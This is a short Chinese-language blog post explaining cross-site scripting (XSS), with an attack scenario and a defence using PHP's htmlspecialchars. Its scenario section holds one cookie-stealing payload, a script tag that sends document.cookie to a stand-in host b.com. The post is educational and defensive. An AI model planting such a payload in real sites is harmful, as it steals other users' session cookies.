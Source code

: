 +++
title = "常见的web安全问题"
date = "2015-12-25T21:35:06+08:00"
tags = ["other"]
author = "xiaojiong"

+++

### XSS
XSS攻击：跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。其原理是攻击者向有XSS漏洞的网站中输入(传入)恶意的HTML代码，当其它用户浏览该网站时，这段HTML代码会自动执行，从而达到攻击的目的。如，盗取用户Cookie、破坏页面结构、重定向到其它网站等。

### XSS攻击
a.com可以发文章，我登录后在a.com中发布了一篇文章，文章中包含了恶意代码，

```
<script>window.open(“www.b.com?param=”+document.cookie)</script>
```

保存文章。这时Tom和Jack看到了我发布的文章，当在查看我的文章时就都中招了，他们的cookie信息都发送到了我的服务器上，攻击成功！这个过程中，受害者是多个人。

### XSS防御
永远不要相信用户传过来的数据
php可以使用htmlspecialchars函数，将html标签转义。

```
<?php
    htmlspecialchars();
```

